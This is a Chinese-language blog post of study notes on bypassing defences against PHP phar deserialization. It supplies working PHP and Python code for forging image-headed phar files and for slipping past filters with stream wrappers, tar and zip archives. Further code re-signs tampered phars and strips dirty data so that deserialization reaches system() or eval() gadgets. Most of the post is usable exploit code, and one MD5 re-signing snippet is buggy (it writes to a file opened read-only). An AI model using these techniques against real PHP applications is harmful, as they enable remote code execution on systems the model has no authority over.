




+++
title = "phar反序列化bypass"
slug = "phar-deserialization-bypass"
description = ""
date = "2024-10-12T21:28:14"
lastmod = "2024-10-12T21:28:14"
image = ""
license = ""
categories = ["talk"]
tags = ["phar", "姿势"]
+++

# 0x01 前言

前面学习phar反序列化的时候我就看到有一些绕过姿势，但是感觉太多了，于是想着单写一篇

# 0x02 question

## 文件头

修改`stub`，在其中加入图片头即可

```
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
```

## 协议

```
1、使用filter伪协议来进行绕过
php://filter/read=convert.base64-encode/resource=phar://phar.phar/m.php
```

```php
<?php
class Hello{
    public $name='bao';
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();     //开缓冲
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$o=new Hello();
$phar->setMetadata($o);
$phar->addFromString("m.php","<?php system('dir'); ?>");  //写入m.php
$phar->stopBuffering();      //关缓冲
?>
```

```php
<?php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/m.php');
```

2、使用bzip2协议来进行绕过

这里还是正常生成一个`phar`文件，只不过要进行处理一下

```
bzip2 -k phar.phar 

compress.bzip2://phar://phar.phar/m.php
```

3、使用zlib协议进行绕过

```
gzip -k phar.phar

compress.zlib://phar://phar.phar/m.php
```

4、使用tar

 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会将 .metadata 里的内容**直接进行反序列化**

但是这种情况要把序列化的数据写在`.phar/.metadata`

```
mkdir .phar
cd .phar

echo 'O:1:"A":2:{s:4:"text";s:7:"success";}' > .metadata
cd ../
tar -cf phar.tar .phar/
```

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }

    function __wakeup(){
        $this->text = 'fail';
    }
}
file_get_contents($_GET['a']);
?>
```

5、利用别的协议打头

```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

## 绕过 `__HALT_COMPILER`

1、直接`gzip`，然后协议包含即可

2、创建zip文件包含来进行反序列化

```php
<?php
class Hello{
    public $name='bao';
}
@unlink("phar.zip");
$a=serialize(new Hello());
$zip=new ZipArchive;
$res=$zip->open('phar.zip',ZipArchive::CREATE);
$zip->addFromString('test.txt','file content goes here');
$zip->setArchiveComment($a);
$zip->close();
?>
```

```php
<?php 
error_reporting(0);
highlight_file(__FILE__); 
class Test{ 
    public $code; 
    public function __destruct(){ 
        eval($this -> code); 
        } 
}
$filename = $_GET['filename']; 
echo file_get_contents($filename); 
?>
```

php会包含zip文件中注释的内容，所以这里成功包含



## 签名计算

### 修复

这里我们打开`phar`文件就可以知道

签名支持 MD5, SHA1, SHA256, SHA512, OpenSSL 算法, 默认是 SHA1



SHA-1 哈希的长度是20字节，所以往前看20个字节位就是签名



然后**需要计算签名的数据**就是把整个文件内容剪掉

```
签名+签名类型+GBMB标志
```

最后我们重新计算签名就可以了

```python
from hashlib import sha1
with open('demo.phar', 'rb') as file:
    f = file.read() 
   
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)

with open('newtest.phar', 'wb') as file:
    file.write(newf) # 写入新文件
```

那么这里仅仅只是SHA1算法，其他算法其实仅仅只是需要改变切片的长度即可

1. **MD5**：
   - 标志：`01`
   - 输出长度：16 字节（128 位）
2. **SHA-1**：
   - 标志：`02`
   - 输出长度：20 字节（160 位）
3. **SHA-256**：
   - 标志：`03`
   - 输出长度：32 字节（256 位）
4. **SHA-512**：
   - 标志：`04`
   - 输出长度：64 字节（512 位）
5. **SHA-384**：
   - 标志：`05`
   - 输出长度：48 字节（384 位）
6. **SHA-224**：
   - 标志：`06`
   - 输出长度：28 字节（224 位）
7. **MD4**：
   - 标志：`07`
   - 输出长度：16 字节（128 位）
8. **MD2**：
   - 标志：`08`
   - 输出长度：16 字节（128 位）
9. **RIPEMD-160**：
   - 标志：`09`
   - 输出长度：20 字节（160 位）

**OpenSSL 支持的哈希算法**

OpenSSL 是一个广泛的加密库，支持多种哈希算法。以下是一些常见的 OpenSSL 哈希算法及其标志和输出长度：

- **MD5**：
  - 标志：`01`
  - 输出长度：16 字节（128 位）
- **SHA-1**：
  - 标志：`02`
  - 输出长度：20 字节（160 位）
- **SHA-256**：
  - 标志：`03`
  - 输出长度：32 字节（256 位）
- **SHA-512**：
  - 标志：`04`
  - 输出长度：64 字节（512 位）
- **SHA-384**：
  - 标志：`05`
  - 输出长度：48 字节（384 位）
- **SHA-224**：
  - 标志：`06`
  - 输出长度：28 字节（224 位）
- **MD4**：
  - 标志：`07`
  - 输出长度：16 字节（128 位）
- **MD2**：
  - 标志：`08`
  - 输出长度：16 字节（128 位）
- **RIPEMD-160**：
  - 标志：`09`
  - 输出长度：20 字节（160 位）

比如说md5 可以这么写

```python
from hashlib import md5

with open('./phar.phar','rb') as file:
    f=file.read()
    
s=f[:-24]
h=f[-8:]
newf=s+md5(s).digest()+h

with open('./newtest.phar','rb') as file:
    file.write(newf)
```

### tar绕过

还有当使用tar文件来触发的时候，其实没有签名，此时可以直接绕过，就是很酷爽

## GC机制

这个直接将文件放在010中修改一下，然后把签名修复就可以了

## 脏数据

### 已知头部(可控)

直接加进去然后重新签名即可

### 已知头部(不可控)

我们直接提前写入脏数据然后把脏数据删除即可

```php
<?php
class flag{
    public $code="whoami";
}
@unlink("phar.phar");
@unlink("poc.phar");
$a=new flag;
//前面的脏数据
$dirtydata = "dirty";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub($dirtydata."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
//下面$dirtydata是可以自定义的
$phar->addFromString("anything" , "test");
$phar->stopBuffering();
$exp = file_get_contents("./phar.phar");
$post_exp = substr($exp, strlen($dirtydata));
$exp = file_put_contents("./poc.phar",$post_exp);
?>
```

```php
<?php
show_source(__FILE__);
class flag {
    public $code;
    public function __destruct(){
        system($this->code);
    }
}
$dirty="dirty";
$old=file_get_contents("./poc.phar");
$new=$dirty.$old;
file_put_contents("./new.phar",$new);
file_exists("phar://./new.phar");
```

可能看起来很简单，但是对于我来说真是非常的来之不易

### 绕过尾部脏数据(不可控)

利用tar文件的暂停解析位来进行尾部脏数据的绕过

首先tar文件结构

1. **头部（Header）**：
   - 每个文件或目录在 tar 文件中都有一个 512 字节的头部。
   - 头部包含文件的元数据，如文件名、大小、权限、所有者等。
2. **数据块（Data Block）**：
   - 文件的实际数据紧跟在其头部之后。
   - 数据块的大小可以变化，但通常是 512 字节的倍数。
3. **填充（Padding）**：
   - 如果文件数据的长度不是 512 字节的倍数，tar 文件会在文件数据后面添加填充字节，使其长度变为 512 字节的倍数。
4. **结束标记（End Marker）**：
   - tar 文件的末尾通常有两个连续的 512 字节的全零块，表示文件的结束。

诶那么如果此时块中数据不符合预期的话，tar 解析器可能会停止解析该块及其后续的数据，即为暂停解析位，那么我们如果要绕过文件尾部脏数据的话，就直接利用`tar`文件就可以了

```php
<?php
class flag{
    public $code="whoami";
}
@unlink("phar.tar");
@unlink("poc.tar");
$a=new flag;

$phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
$phar->startBuffering();
$phar->setMetadata($a);
//下面$dirtydata是可以自定义的
$phar->addFromString("anything" , "test");
$phar->stopBuffering();
```

```php
<?php
show_source(__FILE__);
class flag {
    public $code;
    public function __destruct(){
        system($this->code);
    }
}
$dirty="dirty";
$old=file_get_contents("./phar.tar");
$new=$old.$dirty;
file_put_contents("./new.tar",$new);
file_exists("phar://./new.tar");
```



就这样就绕过了，成功解析

### 头尾一起

一样的方法

```php
<?php
class flag{
    public $code="whoami";
}
@unlink("phar.tar");
@unlink("poc.tar");
$a=new flag;
//前面的脏数据
$dirtydata = "dirty";

$phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
$phar->startBuffering();
$phar->setMetadata($a);
//下面$dirtydata是可以自定义的
$phar->addFromString($dirtydata , "test");
$phar->stopBuffering();
$exp = file_get_contents("./phar.tar");
$post_exp = substr($exp, strlen($dirtydata));
$exp = file_put_contents("./poc.tar",$post_exp);
```

```php
<?php
show_source(__FILE__);
class flag {
    public $code;
    public function __destruct(){
        system($this->code);
    }
}
$front="dirty";
$dirty="dirty";
$old=file_get_contents("./poc.tar");
$new=$front.$old.$dirty;
file_put_contents("./new.tar",$new);
file_exists("phar://./new.tar");
```

# 0x03 小结

终于把这些知识点看完了，开始学习php审计，把之前欠下来的`demo`做了
